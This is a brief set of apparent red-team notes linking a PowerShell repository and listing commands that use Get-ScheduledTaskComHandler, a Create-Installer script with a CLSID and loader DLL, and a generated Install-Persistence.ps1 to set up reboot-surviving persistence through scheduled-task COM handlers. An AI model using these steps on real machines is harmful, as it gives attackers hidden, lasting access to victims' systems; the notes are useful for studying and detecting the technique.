

Unrelated: pretty dope repo
https://github.com/enigma0x3/Misc-PowerShell-Stuff
Get-ScheduledTaskComHandler
https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Get-ScheduledTaskComHandler.ps1
Admin Command Prompt is required
CMD >powershell -f Get-ScheduledTaskComHandler.ps1

Admin Command Prompt is NOT required
CMD > powershell -f Create-Installer.ps1 -CLSID {...} -LoaderDLL ./Loader.dll- [+] Installer Created: Install-Persistence.ps1!
CMD > .\Install-Persistence.ps1
<reboot>